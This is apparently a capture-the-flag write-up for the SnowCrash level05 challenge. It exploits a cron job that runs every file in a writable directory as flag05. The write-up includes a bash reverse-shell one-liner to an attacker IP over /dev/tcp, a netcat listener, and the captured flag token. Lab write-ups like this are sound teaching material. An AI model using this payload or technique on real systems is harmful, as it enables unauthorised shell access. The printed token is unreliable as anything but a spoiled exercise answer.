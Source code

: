 - In the environment variables we discover the `MAIL` location hosts a file which looks like a cronjob which executes `openareaserver` as `flag05` in a bash subprocess

```
level05@SnowCrash:/$ ls -la $MAIL
-rw-r--r--+ 1 root mail 58 Sep 18 16:08 /var/mail/level05
level05@SnowCrash:/$ file /var/mail/level05 
/var/mail/level05: ASCII text
level05@SnowCrash:/$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

```

- Examining the script `/usr/sbin/openarenaserver` reveals a potential wildcard " * " exploit where all scripts in `/opt/openarenaserver/` directory are executed and removed after

```
level05@SnowCrash:/opt/openarenaserver$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

```

- We prepare a malicious file in the `/opt/openareaserver/` directory and use a payload `/bin/sh -i >& /dev/tcp/<attackIP>/<port> 0>&1` to establish a reverse shell back to the attacked machine

```
level05@SnowCrash:/opt/openarenaserver$ vim malicious.sh
level05@SnowCrash:/opt/openarenaserver$ chmod +x malicious.sh
level05@SnowCrash:/opt/openarenaserver$ cat malicious.sh
#!/bin/bash
/bin/sh -i >& /dev/tcp/10.13.200.129/4444 0>&1
```

- On our attack machine we start a netcat listener on port 4444 and wait for the cronjob to execute the malicous script which creates a reverse shell as the user `flag05`

```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.13.200.129] from (UNKNOWN) [10.13.200.131] 42312
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flag05
```

- We run the `getflag` command to retrieve the flag
```
$ whoami
flag05
$ getflag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

- Authenticate as user `level06` using the token

```
level05@SnowCrash:/opt/openarenaserver$ su level06
Password: 
level06@SnowCrash:~$ 
```